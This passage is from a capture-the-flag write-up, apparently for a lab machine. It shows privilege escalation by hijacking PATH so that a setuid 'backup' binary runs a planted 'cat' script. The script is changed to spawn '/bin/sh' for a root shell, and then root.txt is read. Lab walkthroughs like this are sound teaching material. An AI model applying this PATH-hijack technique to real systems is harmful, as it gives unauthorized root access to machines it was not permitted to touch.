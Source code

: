 Now when I run `./backup`, it runs my `cat`, which prints the `id` which
shows an effective user id of root:



    mitsos@LazyClown:~$ ./backup 
    uid=1000(mitsos) gid=1000(mitsos) euid=0(root) egid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lpadmin),111(sambashare),1000(mitsos)



I can simply replace `id` with `/bin/sh`:



    #!/bin/sh

    /bin/sh



And now I `backup` returns a root shell:



    mitsos@LazyClown:~$ ./backup 
    # id
    uid=1000(mitsos) gid=1000(mitsos) euid=0(root) egid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lpadmin),111(sambashare),1000(mitsos)



I can try to grab `root.txt`, but nothing comes:



    # cat root.txt



I need to set the `$PATH` back so that it doesn't call my `cat`, or I
can use `tac` or `less` or `vim` or `grep .` or lots of other ways to
get at file contents:



    # PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games
    # cat root.txt
    990b142c************************
    # grep . root.txt
    990b142c************************
    # tac root.txt
    990b142c************************
